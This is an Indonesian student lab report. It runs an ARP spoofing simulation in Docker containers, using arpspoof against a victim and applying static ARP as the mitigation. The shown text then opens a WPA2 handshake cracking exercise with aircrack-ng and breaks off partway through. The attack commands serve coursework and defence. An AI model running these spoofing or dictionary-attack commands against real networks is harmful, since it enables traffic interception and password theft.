Tahap pertama dilakukan untuk mempersiapkan lingkungan simulasi ARP Spoofing menggunakan Docker. Lingkungan ini terdiri dari tiga container yang berperan sebagai korban, gateway, dan penyerang.

Seluruh container ditempatkan pada jaringan Docker khusus bernama `lab-arp-k2`. Penggunaan jaringan terpisah bertujuan agar proses simulasi dapat dilakukan dalam lingkungan yang terisolasi tanpa mengganggu jaringan utama maupun perangkat lain.

Selain membuat jaringan dan container, dilakukan pula pemeriksaan alamat IP serta MAC Address untuk memastikan setiap perangkat memiliki identitas jaringan yang dapat digunakan selama pengujian.

## 1.2 Pembuatan Jaringan dan Container

Langkah pertama adalah membuat jaringan Docker menggunakan perintah berikut:

```powershell
docker network create lab-arp-k2
```

Setelah jaringan berhasil dibuat, tiga container dijalankan menggunakan Docker Image `uts-kali-tools`.

```powershell
# Membuat container korban
docker run -d --name korban-k2 --network lab-arp-k2 --cap-add NET_ADMIN uts-kali-tools

# Membuat container gateway
docker run -d --name gateway-k2 --network lab-arp-k2 --cap-add NET_ADMIN uts-kali-tools

# Membuat container penyerang
docker run -d --name penyerang-k2 --network lab-arp-k2 --cap-add NET_ADMIN uts-kali-tools
```

Keterangan perintah:

- `docker run -d` digunakan untuk menjalankan container dalam mode detached atau berjalan di latar belakang.
- `--name` digunakan untuk memberikan nama pada setiap container agar mudah dikenali.
- `--network lab-arp-k2` digunakan untuk menghubungkan container ke jaringan Docker yang telah dibuat.
- `--cap-add NET_ADMIN` memberikan kapabilitas administrasi jaringan yang diperlukan untuk menjalankan konfigurasi dan pengujian jaringan.
- `uts-kali-tools` merupakan Docker Image yang digunakan sebagai lingkungan praktikum.

Dengan konfigurasi tersebut, ketiga container dapat berkomunikasi melalui jaringan Docker yang sama.

## 1.3 Pemeriksaan MAC Address dan IP Address

Setelah seluruh container berhasil dijalankan, langkah selanjutnya adalah memperoleh MAC Address asli dari gateway dan penyerang.

Perintah yang digunakan:

```powershell
# Memeriksa MAC Address gateway
docker exec gateway-k2 cat /sys/class/net/eth0/address

# Memeriksa MAC Address penyerang
docker exec penyerang-k2 cat /sys/class/net/eth0/address
```

Selanjutnya, alamat IP korban dan gateway diperoleh menggunakan perintah `docker inspect`.

```powershell
# Mengambil IP Address korban
$ipKorban = docker inspect -f '{{(index .NetworkSettings.Networks "lab-arp-k2").IPAddress}}' korban-k2

# Mengambil IP Address gateway
$ipGateway = docker inspect -f '{{(index .NetworkSettings.Networks "lab-arp-k2").IPAddress}}' gateway-k2

# Menampilkan hasil IP Address
Write-Host "IP Korban  : $ipKorban"
Write-Host "IP Gateway : $ipGateway"
```

Perintah `docker inspect` digunakan untuk memperoleh informasi konfigurasi container, termasuk alamat IP yang diberikan oleh jaringan Docker.

Sementara itu, perintah `cat /sys/class/net/eth0/address` digunakan untuk membaca MAC Address dari interface jaringan `eth0` pada masing-masing container.

## 1.4 Hasil Pengujian

Berdasarkan hasil pemeriksaan melalui PowerShell, diperoleh output sebagai berikut:

```text
5e:dd:0e:72:bb:0e
76:3a:9a:78:2e:7e
IP Korban  : 172.18.0.2
IP Gateway : 172.18.0.3
```

Dari hasil tersebut dapat diketahui bahwa:

1. Gateway memiliki alamat IP `172.18.0.3` dengan MAC Address `5e:dd:0e:72:bb:0e`.
2. Penyerang memiliki alamat IP `172.18.0.4` dengan MAC Address `76:3a:9a:78:2e:7e`.
3. Korban memiliki alamat IP `172.18.0.2`.

Informasi tersebut menjadi parameter utama dalam pelaksanaan serangan. MAC Address asli gateway nantinya akan digunakan sebagai pembanding untuk mengetahui apakah serangan ARP Spoofing berhasil mengubah pemetaan alamat IP gateway pada tabel ARP korban.

## 1.5 Dokumentasi Screenshot



**Gambar 1.** Proses pembuatan jaringan Docker `lab-arp-k2` dan menjalankan tiga container yang berperan sebagai korban, gateway, dan penyerang.



**Gambar 2.** Pemeriksaan MAC Address asli pada container `gateway-k2` dan `penyerang-k2` menggunakan interface jaringan `eth0`.



**Gambar 3.** Hasil pemeriksaan IP Address korban dan gateway menggunakan perintah `docker inspect` melalui Windows PowerShell.

---

# 2. INSTALASI PAKET PENDUKUNG DAN PEMERIKSAAN TABEL ARP AWAL

## 2.1 Tujuan

Tahap kedua bertujuan untuk mempersiapkan perangkat korban dan penyerang agar seluruh proses pengujian ARP Spoofing dapat berjalan dengan baik.

Pada tahap ini dilakukan instalasi beberapa paket pendukung yang diperlukan untuk memeriksa tabel ARP dan menguji konektivitas jaringan.

Paket yang digunakan adalah:

- **net-tools:** menyediakan utilitas jaringan, termasuk perintah `arp`, yang digunakan untuk menampilkan dan mengelola tabel ARP.
- **iputils-ping:** menyediakan perintah `ping` yang digunakan untuk menguji konektivitas antara perangkat korban dan gateway.
- **arpspoof:** utilitas yang digunakan untuk melakukan simulasi pemalsuan paket ARP.

Selain instalasi paket, dilakukan pula pemeriksaan terhadap ketersediaan program `arpspoof` pada container penyerang.

## 2.2 Instalasi Paket pada Container Korban

Perintah berikut dijalankan melalui Windows PowerShell:

```powershell
docker exec korban-k2 sh -c "apt-get update && apt-get install -y net-tools iputils-ping"
```

Penjelasan perintah:

- `docker exec` digunakan untuk menjalankan perintah di dalam container yang sedang aktif.
- `apt-get update` digunakan untuk memperbarui daftar paket dari repository.
- `apt-get install -y` digunakan untuk memasang paket yang diperlukan tanpa meminta konfirmasi tambahan.
- `net-tools` menyediakan perintah `arp` untuk pemeriksaan tabel ARP.
- `iputils-ping` menyediakan utilitas pengujian konektivitas jaringan.

Selanjutnya, dilakukan pemeriksaan ketersediaan `arpspoof` pada container penyerang.

```powershell
docker exec penyerang-k2 which arpspoof
```

Perintah `which arpspoof` digunakan untuk mengetahui lokasi executable `arpspoof` apabila program tersebut tersedia di dalam container.

## 2.3 Pengujian Konektivitas dan Pemeriksaan ARP Awal

Sebelum serangan dilakukan, perangkat korban terlebih dahulu melakukan komunikasi dengan gateway menggunakan perintah berikut:

```powershell
docker exec korban-k2 ping -c 1 172.18.0.3
```

Perintah tersebut mengirimkan satu paket ICMP Echo Request ke alamat IP gateway `172.18.0.3`.

Pengujian ini dilakukan untuk memastikan bahwa korban dapat berkomunikasi dengan gateway sekaligus memicu proses resolusi ARP. Melalui proses tersebut, perangkat korban memperoleh MAC Address gateway dan menyimpannya ke dalam tabel ARP.

Setelah pengujian konektivitas selesai, tabel ARP diperiksa menggunakan perintah:

```powershell
docker exec korban-k2 arp -a
```

Perintah `arp -a` digunakan untuk menampilkan daftar pemetaan alamat IP dan MAC Address yang tersimpan pada tabel ARP perangkat korban.

## 2.4 Hasil Pengujian

Hasil pemeriksaan ketersediaan `arpspoof`:

```text
/usr/bin/arpspoof
```

Output tersebut menunjukkan bahwa program `arpspoof` tersedia pada container penyerang dan dapat digunakan untuk simulasi.

Hasil pengujian konektivitas menggunakan `ping`:

```text
PING 172.18.0.3 (172.18.0.3) 56(84) bytes of data.
64 bytes from 172.18.0.3: icmp_seq=1 ttl=64 time=0.154 ms

--- 172.18.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.154/0.154/0.154/0.000 ms
```

Berdasarkan hasil tersebut, pengiriman paket ICMP berhasil dilakukan. Hal ini dibuktikan dengan adanya satu paket yang berhasil diterima dan tidak ditemukan packet loss.

Selanjutnya, diperoleh tabel ARP awal pada perangkat korban sebagai berikut:

```text
? (172.18.0.1) at 2e:6f:4b:84:0e:13 [ether] on eth0
gateway-k2.lab-arp-k2 (172.18.0.3) at 5e:dd:0e:72:bb:0e [ether] on eth0
```

Dari output tersebut dapat diketahui bahwa alamat IP gateway `172.18.0.3` telah dikenali oleh perangkat korban dan dipetakan ke MAC Address `5e:dd:0e:72:bb:0e`.

MAC Address tersebut sesuai dengan MAC Address asli yang diperoleh pada tahap sebelumnya.

Dengan demikian, kondisi tabel ARP sebelum serangan dapat dinyatakan normal karena pemetaan alamat IP gateway masih mengarah ke perangkat gateway yang sebenarnya.

## 2.5 Dokumentasi Screenshot



**Gambar 4.** Proses pembaruan repository dan instalasi paket `net-tools` serta `iputils-ping` pada container korban. Pada tahap ini juga dilakukan pemeriksaan ketersediaan utilitas `arpspoof` pada container penyerang.



**Gambar 5.** Hasil pengujian konektivitas menggunakan `ping` dan pemeriksaan tabel ARP sebelum serangan. Terlihat bahwa IP gateway `172.18.0.3` masih menggunakan MAC Address asli `5e:dd:0e:72:bb:0e`.

---

# 3. EKSEKUSI SERANGAN ARP SPOOFING

## 3.1 Tujuan

Tahap ketiga merupakan proses utama dalam praktikum, yaitu melakukan simulasi serangan ARP Spoofing menggunakan container penyerang.

ARP Spoofing merupakan teknik manipulasi protokol Address Resolution Protocol (ARP) dengan cara mengirimkan paket ARP palsu kepada perangkat target. Tujuannya adalah membuat perangkat korban mempercayai pemetaan alamat IP dan MAC Address yang tidak sesuai dengan kondisi sebenarnya.

Dalam praktikum ini, penyerang berusaha membuat perangkat korban menganggap bahwa MAC Address milik penyerang merupakan MAC Address dari gateway.

Apabila manipulasi berhasil, tabel ARP korban akan mengalami perubahan. Alamat IP gateway yang sebelumnya mengarah ke MAC Address asli akan berubah menjadi MAC Address milik penyerang.

## 3.2 Konfigurasi dan Eksekusi Serangan

Serangan dilakukan menggunakan utilitas `arpspoof` dari container `penyerang-k2`.

Perintah yang digunakan:

```powershell
docker exec -d penyerang-k2 timeout 20 arpspoof -i eth0 -t 172.18.0.2 172.18.0.3
```

Penjelasan parameter perintah:

- `docker exec`: menjalankan perintah di dalam container Docker.
- `-d`: menjalankan proses dalam mode detached atau latar belakang.
- `penyerang-k2`: container yang digunakan untuk melakukan serangan.
- `timeout 20`: membatasi waktu pelaksanaan proses maksimal selama 20 detik.
- `arpspoof`: menjalankan utilitas untuk mengirimkan paket ARP palsu.
- `-i eth0`: menentukan interface jaringan yang digunakan.
- `-t 172.18.0.2`: menentukan alamat IP korban sebagai target.
- `172.18.0.3`: menentukan alamat IP gateway yang menjadi identitas IP yang dipalsukan.

Dengan konfigurasi tersebut, penyerang mengirimkan informasi ARP palsu kepada korban agar alamat IP gateway dikenali menggunakan MAC Address penyerang.

Setelah proses dijalankan, diberikan jeda selama dua detik agar paket ARP spoofing memiliki waktu untuk diterima oleh perangkat korban.

```powershell
Start-Sleep -Seconds 2
```

Selanjutnya, tabel ARP pada perangkat korban diperiksa kembali menggunakan perintah:

```powershell
docker exec korban-k2 arp -a
```

Pemeriksaan ini bertujuan untuk mengetahui apakah terdapat perubahan pemetaan MAC Address pada alamat IP gateway setelah serangan dijalankan.

## 3.3 Hasil Pengujian

Berikut merupakan hasil pemeriksaan tabel ARP setelah proses ARP Spoofing dilakukan:

```text
? (172.18.0.1) at 2e:6f:4b:84:0e:13 [ether] on eth0
penyerang-k2.lab-arp-k2 (172.18.0.4) at 76:3a:9a:78:2e:7e [ether] on eth0
gateway-k2.lab-arp-k2 (172.18.0.3) at 76:3a:9a:78:2e:7e [ether] on eth0
```

Berdasarkan hasil tersebut, ditemukan perubahan pada pemetaan alamat IP gateway.

Sebelum serangan dilakukan, alamat IP gateway `172.18.0.3` dipetakan ke MAC Address asli:

```text
5e:dd:0e:72:bb:0e
```

Namun, setelah serangan ARP Spoofing dijalankan, pemetaan tersebut berubah menjadi:

```text
76:3a:9a:78:2e:7e
```

MAC Address tersebut merupakan MAC Address milik container `penyerang-k2`.

Perubahan ini menunjukkan bahwa perangkat korban telah menerima informasi ARP palsu sehingga MAC Address penyerang dikenali sebagai MAC Address gateway.

Dengan kata lain, penyerang berhasil memanipulasi tabel ARP pada sisi korban.

Hasil tersebut menjadi bukti utama keberhasilan simulasi ARP Spoofing karena terdapat perbedaan antara MAC Address gateway yang sebenarnya dengan MAC Address yang tercatat pada tabel ARP korban setelah serangan.

## 3.4 Analisis Hasil Serangan

Berdasarkan pengamatan terhadap tabel ARP, serangan berhasil mengubah pemetaan alamat IP gateway pada perangkat korban.

Kondisi tersebut menunjukkan salah satu kelemahan mekanisme ARP, yaitu perangkat dapat menerima pembaruan informasi pemetaan IP ke MAC Address tanpa mekanisme autentikasi yang memadai pada skenario jaringan yang diuji.

Apabila kondisi seperti ini terjadi pada jaringan yang lebih luas, penyerang berpotensi menempatkan dirinya di antara komunikasi korban dan gateway. Teknik tersebut dapat menjadi bagian dari serangan Man-in-the-Middle (MitM).

Namun, dalam praktikum ini pengujian difokuskan pada pembuktian perubahan tabel ARP. Pengujian penyadapan atau manipulasi lalu lintas komunikasi tidak dilakukan.

## 3.5 Dokumentasi Screenshot



**Gambar 6.** Hasil pemeriksaan tabel ARP pada container korban setelah serangan dijalankan. Terlihat bahwa alamat IP gateway `172.18.0.3` telah berubah menggunakan MAC Address penyerang `76:3a:9a:78:2e:7e`.

---

# 4. MITIGASI SERANGAN MENGGUNAKAN STATIC ARP

## 4.1 Tujuan

Setelah keberhasilan simulasi ARP Spoofing dibuktikan melalui perubahan tabel ARP, tahap selanjutnya adalah melakukan mitigasi untuk mengembalikan pemetaan alamat IP gateway ke MAC Address aslinya.

Salah satu metode mitigasi yang digunakan dalam praktikum ini adalah Static ARP.

Static ARP merupakan konfigurasi pemetaan alamat IP ke MAC Address secara manual. Berbeda dengan entri ARP dinamis yang dapat diperbarui melalui proses komunikasi jaringan, entri statis ditetapkan secara manual oleh administrator.

Pada praktikum ini, alamat IP gateway `172.18.0.3` akan dikunci agar selalu mengarah ke MAC Address asli gateway, yaitu `5e:dd:0e:72:bb:0e`.

## 4.2 Penerapan Konfigurasi Static ARP

Perintah berikut digunakan untuk menambahkan entri ARP statis pada perangkat korban:

```powershell
docker exec korban-k2 arp -s 172.18.0.3 5e:dd:0e:72:bb:0e
```

Penjelasan perintah:

- `docker exec korban-k2`: menjalankan perintah pada container korban.
- `arp -s`: menambahkan entri ARP secara statis.
- `172.18.0.3`: alamat IP gateway yang akan ditetapkan.
- `5e:dd:0e:72:bb:0e`: MAC Address asli milik gateway.

Melalui perintah tersebut, perangkat korban diberikan pemetaan tetap antara alamat IP gateway dengan MAC Address aslinya.

Setelah konfigurasi diterapkan, dilakukan pemeriksaan kembali menggunakan perintah:

```powershell
docker exec korban-k2 arp -a
```

Pemeriksaan dilakukan untuk memastikan bahwa entri gateway telah menggunakan MAC Address yang benar dan memiliki status permanen.

## 4.3 Hasil Pengujian

Berikut merupakan hasil pemeriksaan tabel ARP setelah mitigasi Static ARP diterapkan:

```text
? (172.18.0.1) at 2e:6f:4b:84:0e:13 [ether] on eth0
penyerang-k2.lab-arp-k2 (172.18.0.4) at 76:3a:9a:78:2e:7e [ether] on eth0
gateway-k2.lab-arp-k2 (172.18.0.3) at 5e:dd:0e:72:bb:0e [ether] PERM on eth0
```

Berdasarkan output tersebut, pemetaan alamat IP gateway telah kembali menggunakan MAC Address aslinya, yaitu `5e:dd:0e:72:bb:0e`.

Hal penting lainnya adalah munculnya atribut `PERM` pada entri gateway.

Atribut `PERM` menunjukkan bahwa entri ARP tersebut telah ditetapkan sebagai entri permanen atau statis, bukan entri dinamis biasa.

Dengan demikian, konfigurasi Static ARP berhasil diterapkan pada perangkat korban dan mengembalikan pemetaan alamat IP gateway ke MAC Address yang benar.

## 4.4 Analisis Mitigasi

Hasil pengujian memperlihatkan bahwa penggunaan Static ARP dapat membantu mencegah perubahan pemetaan IP dan MAC Address secara dinamis pada entri yang telah dikonfigurasi.

Sebelum mitigasi, penyerang berhasil mengubah pemetaan alamat IP gateway menjadi MAC Address miliknya. Setelah Static ARP diterapkan, pemetaan tersebut kembali menggunakan MAC Address asli gateway.

Dengan demikian, Static ARP dapat digunakan sebagai salah satu langkah perlindungan terhadap manipulasi ARP, khususnya pada perangkat atau jaringan yang memiliki kebutuhan pemetaan alamat tetap.

Meskipun demikian, konfigurasi Static ARP perlu dikelola dengan baik karena perubahan perangkat jaringan dapat mengharuskan administrator memperbarui pemetaan IP dan MAC Address secara manual.

## 4.5 Dokumentasi Screenshot



**Gambar 7.** Hasil pemeriksaan tabel ARP setelah penerapan Static ARP. Alamat IP gateway `172.18.0.3` kembali menggunakan MAC Address asli `5e:dd:0e:72:bb:0e` dengan status `PERM`.

---

# 5. PEMBERSIHAN LINGKUNGAN PRAKTIKUM

## 5.1 Tujuan

Setelah seluruh tahapan simulasi ARP Spoofing dan penerapan mitigasi selesai, dilakukan pembersihan terhadap lingkungan praktikum.

Pembersihan ini bertujuan untuk menghapus container Docker yang telah digunakan serta jaringan khusus yang dibuat untuk simulasi.

Langkah tersebut dilakukan agar lingkungan pengujian tidak meninggalkan container maupun jaringan yang sudah tidak diperlukan setelah praktikum selesai.

## 5.2 Penghapusan Container

Perintah berikut digunakan untuk menghapus ketiga container secara paksa:

```powershell
docker rm -f korban-k2 gateway-k2 penyerang-k2
```

Keterangan:

- `docker rm` digunakan untuk menghapus container.
- `-f` digunakan untuk menghentikan container terlebih dahulu apabila masih berjalan, kemudian menghapusnya.
- `korban-k2`, `gateway-k2`, dan `penyerang-k2` merupakan container yang digunakan selama praktikum.

## 5.3 Penghapusan Jaringan Docker

Setelah seluruh container berhasil dihapus, jaringan Docker yang digunakan dalam simulasi juga dihapus menggunakan perintah:

```powershell
docker network rm lab-arp-k2
```

Perintah tersebut digunakan untuk menghapus jaringan Docker bernama `lab-arp-k2`.

## 5.4 Hasil Pembersihan

Berikut merupakan output yang diperoleh setelah proses pembersihan dilakukan:

```text
korban-k2
gateway-k2
penyerang-k2
lab-arp-k2
```

Output tersebut menunjukkan bahwa ketiga container berhasil dihapus dan jaringan Docker `lab-arp-k2` berhasil dihapus dari lingkungan praktikum.

Dengan demikian, seluruh komponen yang dibuat khusus untuk simulasi ARP Spoofing telah dibersihkan setelah pengujian selesai.

## 5.5 Dokumentasi Screenshot



**Gambar 8.** Proses penghapusan container `korban-k2`, `gateway-k2`, `penyerang-k2`, serta jaringan Docker `lab-arp-k2` setelah seluruh pengujian selesai dilakukan.

---

# 6. REKAPITULASI DAN ANALISIS HASIL PENGUJIAN

## 6.1 Perbandingan Kondisi Tabel ARP

Berdasarkan seluruh tahapan pengujian, dilakukan perbandingan terhadap pemetaan alamat IP gateway pada tabel ARP perangkat korban.

Perbandingan ini bertujuan untuk memperlihatkan perubahan yang terjadi sebelum serangan, setelah serangan, dan setelah penerapan mitigasi Static ARP.

| Kondisi Pengujian | IP Gateway | MAC Address pada Tabel ARP Korban | Status |
|---|---|---|---|
| Sebelum ARP Spoofing | `172.18.0.3` | `5e:dd:0e:72:bb:0e` | Normal (MAC asli gateway) |
| Setelah ARP Spoofing | `172.18.0.3` | `76:3a:9a:78:2e:7e` | Berubah menjadi MAC penyerang |
| Setelah Mitigasi Static ARP | `172.18.0.3` | `5e:dd:0e:72:bb:0e` | Kembali ke MAC asli dengan status `PERM` |

## 6.2 Analisis Sebelum Serangan

Sebelum serangan dilakukan, tabel ARP pada perangkat korban menunjukkan bahwa alamat IP gateway `172.18.0.3` dipetakan ke MAC Address `5e:dd:0e:72:bb:0e`.

MAC Address tersebut sesuai dengan identitas asli container `gateway-k2` yang diperoleh pada tahap persiapan.

Kondisi ini menunjukkan bahwa proses resolusi ARP berjalan sesuai dengan pemetaan alamat IP dan MAC Address perangkat yang sebenarnya.

## 6.3 Analisis Setelah Serangan

Setelah perintah `arpspoof` dijalankan dari container `penyerang-k2`, terjadi perubahan pada tabel ARP perangkat korban.

Alamat IP gateway yang sebelumnya menggunakan MAC Address `5e:dd:0e:72:bb:0e` berubah menjadi `76:3a:9a:78:2e:7e`.

MAC Address tersebut merupakan identitas milik container penyerang.

Perubahan tersebut membuktikan bahwa paket ARP palsu yang dikirimkan oleh penyerang berhasil memengaruhi informasi pemetaan alamat IP dan MAC Address pada perangkat korban.

Dengan demikian, simulasi ARP Spoofing dinyatakan berhasil berdasarkan indikator perubahan MAC Address gateway pada tabel ARP korban.

## 6.4 Analisis Setelah Mitigasi

Setelah serangan berhasil disimulasikan, dilakukan penerapan Static ARP menggunakan perintah:

```powershell
docker exec korban-k2 arp -s 172.18.0.3 5e:dd:0e:72:bb:0e
```

Hasil pemeriksaan menunjukkan bahwa alamat IP gateway kembali menggunakan MAC Address asli `5e:dd:0e:72:bb:0e`.

Selain itu, terdapat atribut `PERM` yang menunjukkan bahwa entri tersebut telah ditetapkan secara permanen.

Hal ini membuktikan bahwa konfigurasi Static ARP berhasil diterapkan dan dapat digunakan sebagai mekanisme mitigasi terhadap perubahan pemetaan ARP pada skenario pengujian ini.

## 6.5 Ringkasan Hasil Praktikum

Berdasarkan seluruh proses yang telah dilakukan, diperoleh beberapa hasil utama:

1. Jaringan Docker `lab-arp-k2` berhasil dibuat sebagai lingkungan simulasi.
2. Tiga container berhasil dijalankan dengan peran sebagai korban, gateway, dan penyerang.
3. Alamat IP dan MAC Address setiap perangkat berhasil diidentifikasi.
4. Perangkat korban berhasil melakukan komunikasi dengan gateway sebelum serangan dilakukan.
5. Utilitas `arpspoof` berhasil dijalankan pada container penyerang.
6. Serangan ARP Spoofing berhasil mengubah pemetaan MAC Address gateway pada tabel ARP korban.
7. Mitigasi menggunakan Static ARP berhasil mengembalikan pemetaan gateway ke MAC Address aslinya.
8. Seluruh container dan jaringan Docker berhasil dihapus setelah praktikum selesai.

---

# 7. KESIMPULAN

Berdasarkan pelaksanaan praktikum Tugas 3 (Pertemuan 3) mengenai ARP Spoofing pada Kasus 2 (`k2`), dapat disimpulkan bahwa simulasi serangan ARP Spoofing berhasil dilakukan menggunakan tiga container Docker yang berperan sebagai korban, gateway, dan penyerang.

Pada kondisi awal, perangkat korban memiliki pemetaan alamat IP gateway `172.18.0.3` ke MAC Address asli `5e:dd:0e:72:bb:0e`. Setelah serangan dijalankan menggunakan utilitas `arpspoof`, pemetaan tersebut berubah menjadi MAC Address milik penyerang, yaitu `76:3a:9a:78:2e:7e`.

Perubahan ini menunjukkan bahwa penyerang berhasil memanipulasi tabel ARP pada perangkat korban dengan mengirimkan informasi ARP palsu. Kondisi tersebut memperlihatkan bagaimana kelemahan mekanisme ARP dapat dimanfaatkan untuk mengarahkan pemetaan alamat IP ke MAC Address yang tidak sesuai dengan perangkat sebenarnya.

Sebagai langkah mitigasi, diterapkan konfigurasi Static ARP pada perangkat korban menggunakan perintah `arp -s`. Setelah konfigurasi dilakukan, alamat IP gateway kembali dipetakan ke MAC Address asli `5e:dd:0e:72:bb:0e` dengan status `PERM`.

Dari hasil tersebut dapat diketahui bahwa Static ARP dapat menjadi salah satu metode mitigasi untuk mempertahankan pemetaan IP dan MAC Address yang telah ditentukan pada perangkat tertentu.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai mekanisme kerja ARP, proses terjadinya ARP Spoofing, dampak manipulasi tabel ARP, serta penerapan mitigasi menggunakan Static ARP.

Selain itu, penggunaan Docker memungkinkan simulasi dilakukan dalam lingkungan yang terisolasi sehingga proses pengujian dapat dilaksanakan tanpa harus menggunakan jaringan produksi atau mengganggu perangkat lain.

---

---

<!-- Dokumentasi lengkap Tugas 4; sumber: tugas4/hasil.md -->

# TUGAS 4 (PERTEMUAN 4)
# ANALISIS HANDSHAKE WPA2 — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER LAB

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 4 |
| Tugas | Analisis Handshake WPA2 |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Image | `uts-kali-tools` |
| Tools Pengujian | Aircrack-ng 1.7 |
| File Capture | `handshake-k2.cap` |
| File Wordlist | `wordlist-k2.txt` |

---

# 1. PENDAHULUAN

## 1.1 Tujuan Praktikum

Praktikum ini bertujuan untuk memahami mekanisme autentikasi WPA2 melalui proses 4-Way Handshake serta melakukan analisis terhadap file hasil tangkapan komunikasi jaringan nirkabel (*wireless capture*).

Pengujian dilakukan menggunakan tools Aircrack-ng yang berjalan di dalam container Docker. File capture dan wordlist yang digunakan merupakan file yang disediakan oleh penguji melalui repository bank soal.

Melalui praktikum ini, dilakukan beberapa kegiatan, yaitu:

1. Memeriksa validitas file capture yang digunakan dalam pengujian.
2. Mengidentifikasi informasi jaringan wireless yang terdapat dalam file capture.
3. Menganalisis keberadaan paket EAPOL yang berkaitan dengan proses WPA2 4-Way Handshake.
4. Melakukan pengujian kata sandi menggunakan metode *dictionary attack* secara offline.
5. Mengidentifikasi kata sandi berdasarkan hasil pencocokan dengan informasi handshake.
6. Memahami fungsi dan proses pertukaran empat pesan dalam WPA2 4-Way Handshake.

## 1.2 Konsep Dasar WPA2 Handshake

WPA2 merupakan protokol keamanan jaringan nirkabel yang digunakan untuk melindungi komunikasi antara perangkat klien dan Access Point (AP).

Dalam mekanisme WPA2-Personal atau WPA2-PSK, proses autentikasi menggunakan kata sandi jaringan yang menjadi dasar pembentukan kunci kriptografi.

Salah satu mekanisme penting dalam proses tersebut adalah **4-Way Handshake**. Proses ini melibatkan pertukaran empat pesan antara Access Point dan perangkat klien untuk membentuk serta mengonfirmasi kunci enkripsi yang digunakan dalam komunikasi.

Informasi dari proses handshake dapat digunakan untuk melakukan pengujian kata sandi secara offline. Pengujian dilakukan dengan mencoba sejumlah kandidat kata sandi dari sebuah wordlist, kemudian mencocokkan hasil perhitungan kriptografinya dengan informasi autentikasi yang tersimpan dalam file capture.

Pada praktikum ini, proses analisis dilakukan menggunakan Aircrack-ng 1.7.

---

# 2. DIAGNOSIS AWAL FILE CAPTURE

## 2.1 Pemeriksaan File Awal

Sebelum melakukan analisis handshake, file `handshake-k2.cap` dan `wordlist-k2.txt` yang disediakan dari repository bank soal diperiksa terlebih dahulu.

Pemeriksaan awal dilakukan untuk memastikan bahwa file capture memiliki struktur yang sesuai dengan format tangkapan jaringan wireless dan dapat dibaca oleh Aircrack-ng.

Pada percobaan pertama, perintah analisis dijalankan menggunakan:

```powershell
docker run --rm -v "$PWD":/work -w /work uts-kali-tools aircrack-ng -w wordlist-k2.txt handshake-k2.cap
```

Namun, proses analisis awal menghasilkan pesan kesalahan sebagai berikut:

```text
Reading packets, please wait...

This file is not a regular 802.11 (wireless) capture.

Opening handshake-k2.cap
Read 0 packets.

No networks found, exiting.
```

Berdasarkan hasil tersebut, Aircrack-ng tidak dapat mengenali file sebagai capture jaringan wireless IEEE 802.11.

Selain itu, tidak terdapat paket yang berhasil dibaca sehingga informasi jaringan dan handshake tidak dapat dianalisis.

## 2.2 Pemeriksaan Struktur File

Untuk mengetahui penyebab kegagalan, dilakukan pemeriksaan lanjutan menggunakan perintah `file` dan `tcpdump`.

Perintah yang digunakan:

```bash
file handshake-k2.cap
```

Hasil pemeriksaan:

```text
